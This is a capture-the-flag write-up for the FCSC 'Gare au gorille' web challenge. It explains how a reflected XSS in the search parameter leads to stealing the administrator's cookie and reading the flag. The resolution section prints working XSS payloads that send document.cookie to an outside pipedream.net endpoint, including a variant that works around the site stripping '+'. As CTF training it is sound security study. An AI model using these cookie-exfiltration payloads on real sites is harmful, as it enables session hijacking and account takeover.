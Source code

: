 # Gare au gorille

> I've built an unpretentious site to store my memes collection!
>
> https://gare-au-gorille.france-cybersecurity-challenge.fr/

## Analysis

On arrive sur un site composé de deux pages : la première est composé d'une collection de memes et d'une input search et la deuxième d'un formulaire de report.

We arrive on a site composed of two pages: the first one is composed of a memes collection and an input search and the second one of a report form.

After a few tries we realize that the site is vulnerable to XSS via this input. With this url
```https://gare-au-gorille.france-cybersecurity-challenge.fr/?search=XSS+attack``` it will display "XSS attack".

Looking at the network activity via the inspector we see that there is a token in the cookie ("token=xxxxxxxx").

Furthermore the flag page ```https://gare-au-gorille.france-cybersecurity-challenge.fr/flag```tells us "This page is only accessible by the administrator". So this is a test for stealing the administrator cookie.

Now we have all the information to trade!

## Resolution

We create an endpoint on requestbin to retrieve the cookie once the admin has clicked on our malicious link.

And we create our payload:

```
https://gare-au-gorille.france-cybersecurity-challenge.fr?search=<img src=x onerror=document.location.href='//eomtg1jcz48suc3.m.pipedream.net?'+document.cookie>
```

The image is present but no response from the site. Looking at the source code we see that the "**+**" has been replaced by a space. So we rewrite without the "**+**".

```
https://gare-au-gorille.france-cybersecurity-challenge.fr?search=<img src=x onerror=document.location.href='//eomtg1jcz48suc3.m.pipedream.net?'.concat(document.cookie)>
```

That's good, we receive a local response. It only remains to send it to the admin and it's done. We recover the admin token: ```token=O9Mv3sFaQD1UpQRLCXVOCzCi0dXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX```

Now we just have to go to the */flag* page and manually edit the headers of our request to replace our token with the admin's token and we get the FCSC{XXXXXXXXXXXXXXXXX} flag.